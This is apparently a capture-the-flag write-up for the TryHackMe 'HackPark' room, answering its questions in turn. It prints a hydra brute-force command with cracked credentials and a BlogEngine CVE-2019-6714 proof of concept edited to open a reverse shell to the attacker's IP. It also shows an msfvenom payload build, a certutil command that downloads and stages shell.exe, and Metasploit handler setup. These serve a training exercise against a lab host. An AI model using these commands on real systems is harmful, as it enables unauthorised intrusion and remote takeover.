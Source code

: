 https://tryhackme.com/r/room/hackpark

---

**Q1. Whats the name of the clown displayed on the homepage?**
I put the image on google and it gave me `pennywise`

**Q2. What request type is the Windows website login form using?**
It is a common `POST` form

**Q3. Guess a username, choose a password wordlist and gain credentials to a user account!**
The hint gave me the user `admin`. I captured the `POST` request for login in burp to get the parameters and I setup my hydra command.
`__VIEWSTATE` and `__EVENTVALIDATION` are 2 tokens quite useless because I can reutilise them to bruteforce with hydra
```shell
hydra -l admin -P /usr/share/wordlists/rockyou.txt 'http-post-form://10.10.44.195:80/Account/login.aspx:__VIEWST  
ATE=J6qO5ft%2BM8gYsvoowzR2XmBvILbt33COZL04l2BJyqYWAqfCK4mZwybD3tRdExXIs1LhRGRacAFWMbxTByq%2BLT%2BxSvEO9UROi4pXtUY8vH  
zSKWDvFBJJ44PGRL4YIS4mA62HJ%2FyxVAOhnZrPWRve42TSXXPlsBn0g3DfII9GpL5YudcKF0oDelCvlfE0qtAGB6TC6R441LgvzZP%2B6RwFdRji0E  
kBdR1p6kRLs9FIBeyDI3oqiNodQAB%2BXs%2Fspz%2Bh4lzdLmREDEIe7g8d5E5IKj8Mw%2FvF0tDVF80Rdz01IgYjfpsoRububw7jPzEZ%2FxgwB0cU  
jcJ79SItcx7mO9R33g%2FIuOHJslnkgaQoNg33mTz5yA9j&__EVENTVALIDATION=AEUMjnVtHp%2BMU70GKhLKkQxw6%2BDeAGw8v4n6CbSArrKogQE  
FfEiCWYIwx5dMCcQmEsWfno24TmH%2B6EV%2FluXlqKn1VujHIq09PaWNc2AGOdO6%2FmvnM%2BxyNKMowOfOMyZo8%2FNpjigt2qpjV%2F2k%2FcUcU  
R6Li6H6qeJ8n9iUC2OIGIPo5RRd&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Pass  
word=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed'
```

So the creds are `admin:1qaz2wsx`

**Q4. Now you have logged into the website, are you able to identify the version of the BlogEngine?**
The version is in the About section

**Q5. What is the CVE?**
I found the [CVE-2019-6714](https://www.exploit-db.com/exploits/46353) on exploitdb

**Q6. Who is the webserver running as?**
So I have to exploit this CVE to get the webserver username

I downloaded the `46353.cs` POC from the link above and renamed in `PostView.ascx` as suggested. Then I changed the `TcpClient` line with my own ip to set up the reverse shell
```cs
using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("10.14.79.56", 9001))
```

Then I went on `http://10.10.44.195/admin/app/editor/editpost.cshtml` to upload the `PostView.ascx` through the file manager and triggered it by going on `http://10.10.44.195/?theme=../../App_Data/files`

And here I m in, `whoami` showed me the `iis apppool\blog` username

##### Stabilizing the shell
Now I need to setup a better shell with meterpreter

To do that, I need to create the `exe` file to trigger my listener
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.14.79.56 LPORT=9002 -f exe -o shell.exe
```
Then I create a python server

With my windows retarded shell, I'm downloading the new `shell.exe` from my python server
```powershell
certutil -urlcache -split -f "http://10.14.79.56:5050/shell.exe" C:\Users\Public\shell.exe
```

Now I need to setup the meterpreter listener
```shell
msfconsole

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.14.79.56
set LPORT 9002
exploit
```

Once it's done, I just have to trigger it on windows by executing the `shell.exe`
```powershell
C:\Users\Public\shell.exe
```

**Q7. What is the OS version of this windows machine?**
On the meterpreter, I just have to type `sysinfo`

**Q8. What is the name of the abnormal _service_ running?**
It's not an abnormal service, it's just the scheduler

**Q9. What is the name of the binary you're supposed to exploit?**
`ps` then bruteforce but the last process in time `Message.exe` was obvious when we think about it

**Q10. What is the user flag (on Jeffs Desktop)?**
On Jeff's desktop

**Q11.  What is the root flag?**
On Administrator's desktop

**Q12. Using winPeas, what was the Original Install time? (This is date and time)**
No date in winPEAS, so:
```powershell
systeminfo | find /i "Original Install Date"
```

